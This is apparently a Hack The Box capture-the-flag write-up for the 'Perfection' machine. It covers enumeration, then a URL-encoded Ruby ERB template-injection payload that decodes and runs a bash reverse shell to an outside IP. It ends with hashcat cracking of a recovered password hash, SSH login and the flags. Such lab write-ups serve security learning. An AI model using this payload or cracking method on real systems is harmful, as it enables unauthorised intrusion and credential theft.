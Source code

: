 # Perfection

## Introduction

This writeup details the exploitation process of the "Perfection" box on Hack The Box. The challenge is categorized as easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

I found the website and I check all the function and I find [http://10.10.11.253/weighted-grade](http://10.10.11.253/weighted-grade)

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### Curl (HEADER)

```bash
curl -I 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

And intercept with burp suite to see it have potential RCE. And I found vulnerability that need to use URL-encoding. [https://www.exploit-db.com/exploits/5215](https://www.exploit-db.com/exploits/5215)

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

```bash
#PAYLOAD
a%0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo=+|+base64+-d+|+bash")+%25>
```

* %0A = blank
* %25 = %
* %3d = =
* use <%= system(' ') %> for SSTI (Server Side Template Injection) of RUBY ([https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby))
* IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= : #!/bin/bash bash -c "bash -i >& /dev/tcp/10.10.16.16/4444 0>&1" ([https://www.revshells.com/](https://www.revshells.com/))

<pre class="language-bash"><code class="lang-bash"><strong>#Plaintext PAYLOAD
</strong><strong>a
</strong><strong>;&#x3C;%= system("echo IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= | base64 -d | bash") %>
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (13) (1).png" alt=""><figcaption><p>BINGO!</p></figcaption></figure>

### User Flag

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption><p>99dea3053881db4616c908de8b15467d</p></figcaption></figure>

## Privilege Escalation

### Found the Database

```bash
strings /home/susan/Migration/pupilpath_credentials.db
```

<figure><img src="../.gitbook/assets/image (15) (1).png" alt=""><figcaption><p>Susan Miller: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f</p></figcaption></figure>

### Found the password format

```bash
cd /var/mail
cat susan
```

<figure><img src="../.gitbook/assets/image (16) (1).png" alt=""><figcaption><p>{firstname}<em>{firstname backwards}</em>{randomly generated integer between 1 and 1,000,000,000}</p></figcaption></figure>

### Crack password:

```bash
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
PASSWORD: susan_nasus_413759210
```

* \-m 1400 (SHA-256 hashes)
* \-a 3 (brute force)
* susan\_nasus\_?d?d?d?d?d?d?d?d?d : {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

### Connect with SSH

```bash
ssh susan@10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

### Root Flag

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption><p>ae84cdfdc078c0790f713ee089011b7c</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
